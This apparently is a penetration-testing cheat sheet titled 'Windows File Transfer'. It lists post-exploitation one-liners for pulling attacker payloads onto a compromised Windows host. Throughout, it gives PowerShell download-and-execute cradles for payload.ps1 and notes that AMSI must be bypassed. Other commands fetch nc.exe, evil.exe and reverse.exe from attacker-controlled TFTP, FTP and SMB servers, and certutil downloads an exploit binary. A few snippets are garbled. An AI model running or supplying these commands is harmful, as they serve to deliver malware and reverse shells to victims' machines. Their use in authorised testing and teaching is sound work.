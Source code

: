 # Windows File Transfer

### Powershell Download Execute cradle <a href="#powershell-download-execute-cradle" id="powershell-download-execute-cradle"></a>

**Note: AMSI needs to be bypassed**

```
iex (New-Object Net.Webclient).DownloadString('http://webserver/payload.ps1')
```

```
$ie=New-object -ComObject internetExplorer.Application
$ie.visible=$false
$ie.navigate('http://webserver/payload.ps1')
sleep 5
$response=$ie.Document.body.innerHTML
$ie.quit()
iex
```

**Using Powershellv3**

```
iex (iwr 'http://webserver/payload.ps1')
```

```
$h=New-Object -Comobject Msxm1l2.XMLHTTP
$h.open('GET','http://webserver/payload.ps1',$false)
$h.send();iex
$h.responseText
```

```
$wr = [System.NET.WebRequest]::Create("http://webserver/payload.ps1")
$r= $wr.GetResponse()
IEX([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

#### TFTP Server <a href="#tftp-server" id="tftp-server"></a>

```
TFTP
# Windows XP and Win 2003 contain tftp client. Windows 7 do not by default 
# tfpt clients are usually non-interactive, so they could work through an obtained shell 

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe
```

#### Python pyftpdlib <a href="#python-pyftpdlib" id="python-pyftpdlib"></a>

```
FTP (pyftpdlib client on Kali)
# Ftp is generally installed on Windows machines
# To make it interactive, use -s option

# On Kali install a ftp client and set a username/password
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21

# on Windows
ftp <attackerip>
> binary
> get exploit.exe
```

#### FTP server pureftpd <a href="#ftp-server-pureftpd" id="ftp-server-pureftpd"></a>

```
# on Kali

# install ftp client
apt-get install pure-ftpd

# create a group
groupadd ftpgroup

# add a user
useradd -g ftpgroup -d /dev/null -s /etc ftpuser

# Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/bob).
mkdir /root/ftphome

# Create a ftp-user, in our example "bob" (again you can set "-d /root/ftphome/bob/" if you wish).
pure-pw useradd bob -u ftpuser -g ftpgroup -d /root/ftphome/

# Update the ftp database after adding our new user.
pure-pw mkdb

# change ownership of the specified ftp directory (and all it's sub-direcotries) 
chown -R ftpuser:ftpgroup /root/ftphome

# restart Pure-FTPD
/etc/init.d/pure-ftpd restart


# On Windows
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

```
Powershell full path: 
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe
```

#### Powershell OneLiners <a href="#powershell-oneliners" id="powershell-oneliners"></a>

```
iex(iwr http://example.com/text.ps1 -UseBasicParsing)

powershell.exe (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http:///<script>')"
```

#### Powershell Script <a href="#powershell-script" id="powershell-script"></a>

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### SMB Server <a href="#smb-server" id="smb-server"></a>

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

#### CertUtil <a href="#certutil" id="certutil"></a>

```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```
